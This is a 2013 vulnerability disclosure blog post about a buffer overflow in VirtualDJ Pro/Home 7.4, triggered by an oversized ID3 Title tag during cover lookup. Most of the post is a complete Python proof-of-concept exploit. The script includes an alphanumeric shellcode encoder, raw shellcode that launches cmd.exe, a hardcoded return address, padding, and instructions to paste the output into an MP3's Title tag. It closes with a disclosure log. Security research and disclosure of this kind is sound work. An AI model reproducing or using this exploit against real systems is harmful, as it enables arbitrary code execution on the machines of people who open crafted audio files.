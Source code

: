 ```yaml
---
layout: post
date: 2013-04-20 00:00:00 UTC
title: VirtualDJ Pro/Home 7.4: Buffer Overflow
author: Alexandro Sanchez
---
```


I have found a buffer overflow vulnerability in [VirtualDJ Pro 7.4 and VirtualDJ Home 7.4](http://www.virtualdj.com/) and possibly previous versions of this software. After right-clicking a file and entering the "_File Infos_" > "_Cover..._" menu, VirtualDJ tries to find a cover for the given file on Google Images and stores the request URL in a buffer which looks like: `"http://images.google.com/images?q=X"` where `X` corresponds to the ID3 tag _Title_. Special characters of this tag are ignored, and any sequence of symbols (e.g. `' '`, `'-'`, `'_'`) is replaced with `'+'`. The problem is [once again](../2013-03-30-virtualdj-73-buffer-overflow/) that VirtualDJ does not check if the information stored in the ID3 tags is too big to fit in the buffer.

To exploit this vulnerability, I searched for a `call esp` instruction stored in an address that could be represented with alphanumeric characters, I found such instruction in 0x444D4C64, that is, `"dLMD"`. After entering this call, all the bytes after the _Fake Title_ + _Spaces_ + _Padding_ + `"dLMD"` will be executed. Since we can only use alphanumeric characters, we have to encode the shellcode and decode it in execution time using only bytes in range `[0-9A-Za-z]`. For this purpose I used a function from [ALPHA3](http://code.google.com/p/alpha3/). After that, the original shellcode will be decoded and executed.

```python
#Exploit: VirtualDJ Pro/Home <=7.4 Buffer Overflow Vulnerability 
#By: Alexandro Sanchez Bach | functionmixer.blogspot.com 
#More info: http://www.youtube.com/watch?v=Yini294AR2Q 

def encodeData(decoder, data, validValues):
    assert data.find("\0") == -1, "Shellcode must be NULL free"
    data += "\0" #End of shellcode 
    encData = decoder[-2:]
    decoder = decoder[:-2]
    for p in range(len(data)):
        dByte = ord(data[p])
        pxByte = ord(encData[p+1])
        bx, by = encoder(dByte ^ pxByte, validValues)
        encData += chr(bx) + chr(by)
    return decoder + encData
 
def encoder(value, validValues): 
      for bx in validValues:
        imul = (bx * 0x30) &amp; 0xFF
        for by in validValues:
            if imul ^ by == value: return [bx, by]
 

#Shellcode (e.g. run cmd.exe) 
shellcode  = "\xB8\xFF\xEF\xFF\xFF\xF7\xD0\x2B\xE0\x55\x8B\xEC"
shellcode += "\x33\xFF\x57\x83\xEC\x04\xC6\x45\xF8\x63\xC6\x45"
shellcode += "\xF9\x6D\xC6\x45\xFA\x64\xC6\x45\xFB\x2E\xC6\x45"
shellcode += "\xFC\x65\xC6\x45\xFD\x78\xC6\x45\xFE\x65\x8D\x45"
shellcode += "\xF8\x50\xBB\xC7\x93\xBF\x77\xFF\xD3"
retAddress = "\xED\x1E\x94\x7C" # jmp ESP ntdll.dll WinXP SP2 
shellcode += retAddress

#Arguments 
fakeTitle  = "Greatest Hits of the Internet - Nyan Cat"
while fakeTitle[0]  == " ": fakeTitle = fakeTitle[1:]
while fakeTitle[-1] == " ": fakeTitle = fakeTitle[:-1]
for i in fakeTitle:
    if i not in "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz -":
        raise "Invalid characters in the fake title"
fakeTitle2 = fakeTitle.replace("-"," ")
while " " in fakeTitle2: fakeTitle2 = fakeTitle2.replace(" "," ")

#Exploit 
exploit =  fakeTitle + " "*1024 + "1"*(1026 - len(fakeTitle2)-1)
exploit += "dLMD" #RETN address 
exploit += "XXAI" #ESP := Baseaddr of encoded payload 
exploit += encodeData(
	"TYhffffk4diFkDql02Dqm0D1CuEE", #Baseaddr of encoded payload := ESP 
    shellcode,
    map(ord, list("0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"))
)

print exploit
#Paste the generated code in the tag 'Title' of the MP3 file.
```

You can see a demo of this proof of concept at: https://www.youtube.com/watch?v=Yini294AR2Q.

## Log

* __2013-04-07__: Bug discovered. VirtualDJ was emailed about this a few days later.
* __2013-04-20__: Bug ignored. Exploit published.

